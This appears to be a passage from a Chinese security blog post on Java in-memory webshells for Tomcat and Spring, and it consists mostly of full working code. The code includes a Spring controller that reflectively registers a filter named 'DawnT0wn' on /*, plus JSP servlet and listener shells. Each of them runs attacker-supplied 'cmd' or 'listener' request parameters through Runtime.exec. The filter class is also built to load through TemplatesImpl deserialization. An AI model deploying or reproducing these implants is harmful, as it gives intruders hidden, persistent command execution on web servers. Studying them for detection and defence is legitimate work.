

不过这些代码放到spring里面反射的时候会找到不filterConfigs，也不知道为什么，明明调试的时候里面有filterConfigs，可能是只有用tomcat的时候才能实现吧，毕竟上基于tomcat组件的，spring起的时候通过controller，不是servlet

但threedr3am在先知那篇文章却可以放在spring里面用，还是可以直接打templatesImp加载恶意类

```
package com.example.spring.Controller;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

@Controller
public class FilterShellController extends AbstractTranslet implements Filter{
    @RequestMapping("/filter")
    @ResponseBody
    public void aaa() throws Exception{
        try {
            /*shell注入，前提需要能拿到request、response等*/
            java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal t = (ThreadLocal) f.get(null);
            ServletRequest servletRequest = null;
            //不为空则意味着第一次反序列化的准备工作已成功
            if (t != null && t.get() != null) {
                servletRequest = (ServletRequest) t.get();
            }
            if (servletRequest != null) {
                javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                org.apache.catalina.core.StandardContext standardContext = null;
                //判断是否已有该名字的filter，有则不再添加
                if (servletContext.getFilterRegistration("DawnT0wn") == null) {
                    //遍历出标准上下文对象
                    for (; standardContext == null; ) {
                        java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                        contextField.setAccessible(true);
                        Object o = contextField.get(servletContext);
                        if (o instanceof javax.servlet.ServletContext) {
                            servletContext = (javax.servlet.ServletContext) o;
                        } else if (o instanceof org.apache.catalina.core.StandardContext) {
                            standardContext = (org.apache.catalina.core.StandardContext) o;
                        }
                    }
                    if (standardContext != null) {
                        //修改状态，要不然添加不了
                        java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                        stateField.setAccessible(true);
                        stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                        //创建一个自定义的Filter马
                        Filter DawnT0wn = new FilterShellController();
                        //添加filter马
                        javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("DawnT0wn", DawnT0wn);
                        filterRegistration.setInitParameter("encoding", "utf-8");
                        filterRegistration.setAsyncSupported(false);
                        filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});
                        //状态恢复，要不然服务不可用
                        if (stateField != null) {
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                        }

                        if (standardContext != null) {
                            //生效filter
                            java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                            filterStartMethod.setAccessible(true);
                            filterStartMethod.invoke(standardContext, null);

                            //把filter插到第一位
                            org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext.findFilterMaps();
                            for (int i = 0; i < filterMaps.length; i++) {
                                if (filterMaps[i].getFilterName().equalsIgnoreCase("DawnT0wn")) {
                                    org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                    filterMaps[i] = filterMaps[0];
                                    filterMaps[0] = filterMap;
                                    break;
                                }
                            }
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd;
        if ((cmd = servletRequest.getParameter("cmd")) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```



# 内存马排查

https://www.yuque.com/tianxiadamutou/zcfd4v/kd35na#34bb9bc2

# servlet内存马

了解了filter内存马后，对于tomcat下的组件listener和servlet内存马的思路是一样的，只是说动态注册的过程有一点区别，这里就值记录一个POC了

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>

<%!

    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            if(req.getParameter("cmd")!=null) {
                Process cmd = Runtime.getRuntime().exec(req.getParameter("cmd"));
                InputStream inputStream = cmd.getInputStream();
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    res.getWriter().println(line);
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }

%>

<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>

<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```



# listener内存马

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>

<%!
  public class Shell_Listener implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent sre) {
      HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
      String cmd = request.getParameter("listener");
      if (cmd != null) {
        try {
          Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
          e.printStackTrace();
        } catch (NullPointerException n) {
          n.printStackTrace();
        }
      }
    }

    public void requestDestroyed(ServletRequestEvent sre) {
    }
  }
%>
<%
  Field reqF = request.getClass().getDeclaredField("request");
  reqF.setAccessible(true);
  Request req = (Request) reqF.get(request);
  StandardContext context = (StandardContext) req.getContext();

  Shell_Listener shell_Listener = new Shell_Listener();
  context.addApplicationEventListener(shell_Listener);
%>
```




上面都是用jsp写的，如果遇到注入恶意类的话，稍作修改即可


参考链接

https://www.jianshu.com/p/cbe1c3174d41

https://xz.aliyun.com/t/7388#toc-2

https://su18.org/post/memory-shell/

https://blog.csdn.net/weixin_43263451/article/details/125902345?spm=1001.2014.3001.5501

https://goodapple.top/archives/1355

https://www.yuque.com/tianxiadamutou/zcfd4v/kd35na#34bb9bc2